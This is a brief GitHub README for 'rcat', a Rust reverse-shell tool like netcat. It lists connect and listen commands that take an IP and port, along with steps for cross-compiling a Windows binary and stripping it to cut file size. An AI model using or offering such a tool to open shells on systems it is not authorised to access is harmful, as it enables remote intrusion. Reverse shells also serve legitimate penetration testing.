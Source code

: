 # rcat

Simple rust reverse shell, similar to nc.

## usage

```
rcat.exe connect <ip> <port>
rcat.exe listen <ip> <port>
rcat_ip_port.exe
```

## compile

```
rustup target add x86_64-pc-windows-gnu
rustup toolchain install stable-x86_64-pc-windows-gnu
```

Windows:
```
cargo build --release --target x86_64-pc-windows-gnu
```

Linux:
```
cargo build --release
```

To reduce the filesize further, you can strip the binaries with `strip`.